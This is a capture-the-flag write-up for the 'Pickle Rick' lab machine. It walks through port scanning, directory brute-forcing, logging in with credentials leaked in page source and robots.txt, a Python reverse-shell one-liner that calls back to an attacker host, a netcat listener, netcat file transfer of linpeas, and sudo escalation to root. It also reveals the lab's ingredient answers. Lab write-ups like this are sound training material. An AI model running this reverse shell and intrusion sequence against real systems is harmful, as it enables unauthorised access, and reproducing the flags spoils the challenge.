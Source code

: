 K4P3R3 | 6TH AUGUST 2022

PickleRick boot2root CAPTCHA THE FLAG

Writeup:

Initial scan and viewing the source code.
------------------------------
Nmap scan:
$ export IP=10.10.245.139

$ nmap -sVC -n -A -Pn -p- $IP --min-rate 5000
-------------
Output:

┌──(k4p3r3㉿kali)-[~/Downloads/thm.tasks/piclerick]
└─$ nmap -sVC -n -A -Pn -p- 10.10.245.139 --min-rate 5000                  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-06 10:00 EAT
Warning: 10.10.245.139 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.245.139
Host is up (0.16s latency).
Not shown: 65419 closed tcp ports (conn-refused), 114 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:34:83:06:8f:f9:9e:da:8b:b2:81:d5:e4:65:83:e3 (RSA)
|   256 18:ab:68:1f:d4:ad:0a:a3:3f:d6:dc:b4:5d:9d:38:e2 (ECDSA)
|_  256 64:6d:46:b2:5f:7e:d0:c5:d2:b9:5e:68:bc:b9:0b:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.68 seconds

We get port 22 and 80 open running SSH and http respectively
We can try to ssh into the machine having the username and trying to bruteforce the password maybe.


┌──(k4p3r3㉿kali)-[~/Downloads/thm.tasks/piclerick]
└─$ ssh R1ckRul3s@10.10.245.139
The authenticity of host '10.10.245.139 (10.10.245.139)' can't be established.
ED25519 key fingerprint is SHA256:8xH97vPJhYkMJJ7ywOdJLXHGpH0Eo/w3CGxqQSqmXiI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? YES
Warning: Permanently added '10.10.245.139' (ED25519) to the list of known hosts.
R1ckRul3s@10.10.245.139: Permission denied (publickey).

Well permission denied
---------------------------------------------
So lets do directory bruteforcing to see some of the hidden directories.

┌──(k4p3r3㉿kali)-[~/Downloads/thm.tasks/piclerick]
└─$ gobuster dir -u http://10.10.245.139 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.245.139
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              sh,txt,cgi,html,js,css,py,php
[+] Timeout:                 10s
===============================================================
2022/08/06 11:09:42 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882] 
/assets               (Status: 301) [Size: 315] [--> http://10.10.245.139/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                    
/robots.txt           (Status: 200) [Size: 17] 

In robots.txt we get : Wubbalubbadubdub

Navigating to http://10.10.245.139/login.php we get a login page

Using the username in the source code {R1ckRul3s} and trying out the word in the robots.txt {Wubbalubbadubdub} and we managed to log in to access a command line panel.

I tried executing several commands until i stumbled upon python3 command that the system can execute
Trying python3 -c "print('Hey there')" have an output
Here we go, we got to something juicy

Pentestmonkey cheat sheets will be a great help for a command reverse shell

So i executed the python reverse shell to gain access into the machine

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Then  listenng on my attack machine and executing the command on the victim we get a reverse shell

┌──(k4p3r3㉿kali)-[~/Downloads/thm.tasks/piclerick]
└─$ rlwrap nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.9.8.255] from (UNKNOWN) [10.10.245.139] 36484
/bin/sh: 0: can't access tty; job control turned off
$ 

We get to make the shell stable by putting in the below commands;

$ python3 -c 'import pty;pty.spawn("/bin/bash");
$stty raw -echo
$fg
$xport TERM=xterm

Kaboom we got a stable shell to work on

Next i opted to first escalate my privileges just to own the machine first to make my working easy when looking for the ingredients.
Upload linpeas.sh from my attack machine:


┌──(k4p3r3㉿kali)-[~/Downloads/thm.tasks/piclerick]
└─$ nc 10.10.245.139 4444 -w 3 < linpeas.sh

Recieve it at the target machine;
nc -lvp 4444 > /dev/shm/linpeas.sh
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [10.9.8.255] port 4444 [tcp/*] accepted (family 2, sport 42864)
cd /dev/shm
ls
linpeas.sh

I make the script executable and then run it.
$chmod +x linpeas.sh
$./linpeas.sh

The machine can work without password input so typing sudo bash on the terminal gives me ownership of the machine.
Vuola!!!
sudo bash
c
c: command not found
cd
ls
3rd.txt  snap //This gives us our third ingredient
cat 3rd.txt
3rd ingredients: fleeb juice
cd /home
ls
rick  ubuntu
cd /rick
bash: cd: /rick: No such file or directory
ls
rick  ubuntu
cd rick
ls 
second ingredient
cat: ingredients: No such file or directory
cat *
1 jerry tear   // Second ingredient for us
Terminated-10-245-139:/home/rick# 
$ 



                                                                                                      
